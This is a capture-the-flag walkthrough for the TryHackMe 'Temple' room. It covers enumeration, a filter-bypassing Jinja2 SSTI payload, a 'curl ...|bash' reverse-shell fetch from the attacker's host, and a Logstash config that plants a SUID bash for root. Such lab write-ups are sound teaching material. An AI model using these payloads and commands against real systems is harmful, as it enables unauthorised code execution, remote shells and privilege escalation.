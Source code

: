 **Temple - Hard**

**Category: Security, Web, Hacking, Flask**

**URL: https://tryhackme.com/room/temple**

  

**Thoughts about the challenge before starting the challenge.**

When looking at the task, based on the name and the categories, it is most likely a Server-Side Template Injection (SSTI) vulnerability that will be exploited.
Python Werkzeug Flask is well known in CTFs to contain SSTI vulnerability, and the name of the challenge also hints at the T in the SSTI.
The difficulty of the challenge could be based on how hard it is to find the vulnerability, if it is hard to exploit, bypassing of filters, and as well the difficulty of the privilege escalation.


**Process for obtaining Flag1.txt:**

**Open ports and services:**
````
7 echo: this service only echoes back what is being sent to it.
21 ftp - 22 ssh - 23 telnet: not leaking any sensitive data and would be time-consuming to brute force.
80 Apache HTTP: Not more than the default Apache site.
61337 Werkzeug HTTP: Based on the thoughts of the challenge, this is the service that most likely would contain the SSTI vulnerability and the service being tested at the highest priority.
````

When accessing the website ````http://IP:61337````, we are being redirected to ````/login````.
This path only contains a login form and has no functionality to access other paths.
The source code does not leak any other paths.


The login form is tested with simple SQLi and more advanced, as well as the automatization tool sqlmap without any signs of SQLi vulnerability.


Next is file and directory discovery through fuzzing.
Because this is a Flask web application, the fuzzing would be done without extensions.
Initially, I would always use a short wordlist with common names.
In Kali Linux, a standard wordlist is found at ````/usr/shar/wordlist/dirb/common.txt````.
This gave some results, but not what was needed. Therefore it was essential to test with other wordlists.
The other wordlists are the ````SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-(small|medium|big).txt````.
As for this, I start with the smallest wordlist first and then escalate to the bigger wordlists if needed.
This was a time-consuming task at first, and it tested the patience of the enumeration process.
````The biggest tip for this process is to use FFUF and set the threads flag at a high level.````
I found that both ````100 and 200 threads gave the same result````. This gave me the result after 3 minutes and 40 seconds.
If running default at the configuration of ````40 threads````, this would take a lot more time. If the service is slow, it could take over an hour.
At my first attempt at fuzzing for paths, the last path was not found after one and a half hours of fuzzing.
This resulted from a slow service and a low amount of threads. 


**common.txt result:**
````
302 - /account                                              
403 - /admin                                                
302 - /application                                           
302 - /external                                             
302 - /home                                                  
302 - /internal                                            
200 - /login                                               
302 - /logout                                               
200 - /robots.txt                                            
403 - /temporary
403 - /temporary/dev
````

**SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt:**
````
200 - /temporary/dev/newacc
````

The endpoint found is an endpoint where we could create an account.
This only requires an ````email, username, and password```` where the username must be longer than ````5```` and the password longer than ````8````.
After creating the account, we could login to the user portal, which gives access to the paths with the ````302 code````.


Under the path ````/account````, the representative account username is displayed.
This is important to test further since it could display an SSTI vulnerability.
By creating a new account with ````{{5*5}}```` as username, the username displayed when logged in should display ````25```` if it is vulnerable.
If not, it could be filtered to bypass, or the correct field still needs to be found.


After creating an account with username ````{{5*5}}````, the account path does show ````25````, which means it has an SSTI vulnerability, as expected from the name and category.
This could be exploited with os commands and reverse shell.


To get a foothold, Hacktricks is a fantastic tool with many copy-paste codes that could be pasted into the username field with some modifications to make it do what we want.
The cheat sheet for SSTI at hacktrick is found at: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection .


All the snippets from this site were tested, but all were rejected by the server as a hacking attempt.
This means we have to find other ways to bypass different filters which could be used.
For this, I found this site through Google: https://hackmd.io/@Chivato/HyWsJ31dI#RCE-bypassing-as-much-as-I-possibly-can


**The one used was this**:
````
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
````

This is still rejected because a hacking attempt was made, but based on the website, this should bypass most of the filters.
I tested the same but changed the ````'```` to, ````"```` and this was the last bypass needed.
````
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("whoami")|attr("read")()}}
````

This gave the result in the username field of the account endpoint, ````bill````, which means that the ````bill```` user on the server is the user who owns the running service.
This would also make the reverse shell identity ````bill```` after successful exploitation.
For the process of gaining foothold, it is essential to start a listener.
When testing basic reverse shells, it was either reported as a hacking attempt or not giving a result to the listener.
Then I tested with a simple curl command to my IP and the listening port, which gave a hit.
This means we could create a simple bash reverse shell in a file and then open a Python server, making the curl command possible to access the file.
Therefore, changing ````whoami```` from the SSTI above to ````curl http://IP:port/reverseshellfile|bash```` would collect and execute the code.
````
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl http://10.9.80.181/sstibypassshell|bash")|attr("read")()}}
````

After inserting this as the username and creating the account, a reverse shell is spawned when accessing the ````/account```` path.
This gave foothold as ````bill````, and the first flag was found under ````/home/bill/flagg1.txt````.


**Useful commands for a better shell:**
````
1. on the target: python3 -c 'import pty;pty.spawn("/bin/bash")'
2. on the target: export TERM=xterm
3. on the target: Ctrl + Z
4. in the same window as the target is being backgrounded: stty raw -echo; fg
5. on the target: stty rows 38 columns 116
````

This would make it possible to arrow up for earlier commands, clear to clear the terminal.
The terminal is not being exited with ````CTRL + C````, making it possible to run other scripts on the target and use ````CTRL + C```` to exit that script and not the terminal reverse shell.


**Process for obtaining Flag2.txt:**

When enumerating for escalating possibilities, I always check manually at first before using auto scripts like Linpeas.
This is because some escalations could often be found faster by one or multiple commands than by a script running multiple processes to gather critical information.
For this, commands like ````netstat -tvlp```` to look for undiscovered open ports or locally open ports,
````find / -perm -4000 2>/dev/null```` to find SUID binaries which could be abused,
check directories like ````/home```` for which users we could privesc to, ````/opt /tmp```` for abnormalities, the flask application found at ````/home/bill/webapp```` as well as running processes.
For running processes, I like to use ````pspy64```` since it would check live processes and spawning processes, which could give a cronjob run by root that could be used.
Using ````ps```` for running processes could miss cronjobs being executed.


When using the ````pspy64````, a binary: ````/usr/share/logstash/jdk/bin/java```` is being executed by root.
Searching for logstash at hacktricks introduces us to a privilege escalation possibility.
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash


The first indicator for this vulnerability is if this file ````/etc/logstash/pipelines.yml contains 'path.config: "/etc/logstash/conf.d/*.conf"'````.
The ````*```` means it would use all the ````.conf```` files inside the path ````/etc/logstash/conf.d/````. 


````pipeline.yml```` on the target, which indicated what was explained above from hacktricks.
````
- pipeline.id: main
  path.config: "/etc/logstash/conf.d/*.conf"
````

The following important part of this exploit is to have write permission to the directory conf.d or a file inside.
In this case, we do not have write permission to the directory, but we have write permission to the only conf file inside the directory: ````logstash-sample.conf````.
````
dr-xr-xr-x   2 root root  4096 Oct  3  2021 conf.d
-r--r--rw- 1 root root 101 Oct  4  2021 logstash-sample.conf
````

The last thing we need is a way to reload the service.
The file ````/etc/logstash/logstash.yml```` contains information about the config reloading automatically every third second.
This means it is possible to exploit the vulnerability.


````logstash.yml```` on the target, which indicates the reloading process.
````
config.reload.automatic: true
config.reload.interval: 3s
````

By writing this code into the config file, we would copy the ````/bin/bash```` binary to a replica and add SUID privileges to the binary,
which means we could run this binary with the ````-p```` flag and have root privileges.
This code is the one found at https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash , but with another command.


**privesc exploit:**
````
input {
  exec {  
    command => "cp /bin/bash /tmp/bash; chmod +s /tmp/bash"    
    interval => 120    
  }
}

output {
  file { 
    path => "/tmp/output.log"   
    codec => rubydebug   
  }  
}
````

The last flag is then found at ````/root/flag2.txt````.


**More information:**

We got access to the bill user based on the SSTI, but there were also found two other users, ````frankie```` and ````princess````.
After the challenge was completed, there was found a possibility to crack the ````princess```` password based on the hash found in ````/etc/shadow````.
This was only tested with the Rockyou wordlist. This indicates that the server allows users to have bad passwords.

It is also possible to obtain access to the MySQL service.
Credentials for this service are leaked in the ````/home/bill/webapp/app.py````.
